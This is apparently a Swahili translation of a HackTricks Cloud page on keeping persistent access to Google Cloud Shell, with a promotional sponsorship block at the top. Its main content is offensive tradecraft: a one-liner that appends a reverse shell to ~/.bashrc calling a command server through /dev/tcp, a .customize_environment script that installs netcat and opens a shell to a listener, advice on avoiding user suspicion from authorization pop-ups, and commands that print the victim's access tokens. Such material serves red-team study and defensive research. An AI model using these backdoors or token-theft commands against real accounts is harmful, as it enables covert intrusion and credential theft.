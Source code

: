 # GCP - Uthabiti wa Cloud Shell

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repos za github.

</details>

## Cloud Shell

Kwa habari zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Mlango wa Nyuma wa Kudumu

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwenye kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kupata Cloud Shell ya Google kutoka kwenye **konsoli ya wavuti** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa wadukuzi:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa kipengele cha Cloud Shell kilichothibitishwa kabisa (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Kipengele hicho kitabaki na **directory yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayotokea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli ya kipengele hicho.

Hii kimsingi inamaanisha kwamba mshambuliaji anaweza kuweka mlango wa nyuma kwenye directory ya nyumbani ya mtumiaji na muda mrefu kama mtumiaji anajiunganisha kwenye GC Shell kila baada ya siku 120 angalau, mlango wa nyuma utaendelea kuwepo na mshambuliaji atapata kikao kila wakati unapoendeshwa tu kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili lingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwepo, itatekelezwa **kila wakati** mtumiaji anapopata upatikanaji wa **cloud shell** (kama katika mbinu iliyopita). Ingiza mlango wa nyuma uliopita au moja kama ifuatavyo ili kudumisha uthabiti muda mrefu mtumiaji anapotumia "mara kwa mara" cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kutambua kwamba **wakati wa kwanza kitendo kinachohitaji uthibitisho kinatekelezwa**, dirisha la idhini linatokea kwenye kivinjari cha mtumiaji. Dirisha hili lazima lipokelewe kabla ya amri kuendesha. Ikiwa dirisha lisilotarajiwa litatokea, linaweza kuzua shaka na kuhatarisha njia ya uthabiti inayotumiwa.
{% endhint %}

Hii ni dirisha la idhini kutoka kwa kutekeleza `gcloud projects list` kutoka kwa ganda la wingu (kama mshambuliaji) inayoonekana kwenye kikao cha mtumiaji wa kivinjari:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Walakini, ikiwa mtumiaji ameitumia ganda la wingu kikamilifu, dirisha la idhini halitatokea na unaweza **kukusanya vibali vya mtumiaji na**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi uhusiano wa SSH unavyoundwa

Kimsingi, maombi haya 3 ya API hutumiwa:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (itakufanya uongeze funguo yako ya umma uliyounda kwa kienyeji)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (itakufanya uanzishe kipengee)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (itakwambia anwani ya IP ya ganda la Google Cloud)

Lakini unaweza kupata habari zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
